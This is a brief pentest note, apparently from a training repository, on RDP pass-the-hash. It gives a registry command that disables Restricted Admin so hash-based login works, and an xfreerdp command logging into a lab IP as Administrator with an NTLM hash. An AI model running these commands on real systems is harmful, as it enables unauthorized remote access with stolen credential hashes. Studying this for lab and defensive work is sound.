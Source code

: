 Remote Desktop Protocol (RDP) is a Microsoft-developed proprietary protocol that enables users to access a graphical interface on a remote computer over a network. It serves as a prominent administration tool, empowering system administrators and managed service providers (MSPs) to remotely control multiple systems as if they were physically present. However, this convenience comes with a drawback, as RDP can become a potential entry point for cyberattacks, emphasizing the importance of secure configurations and precautions.


DisableRestrictedAdmin Must be set to 0 to allow RPD with PTH.

```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/7704e78f-7eee-4558-bebe-f7f26e385a29)

```
xfreerdp  /v:10.129.204.23 /u:Administrator /pth:30B3783CE2ABF1AF70F77D0660CF3453
```
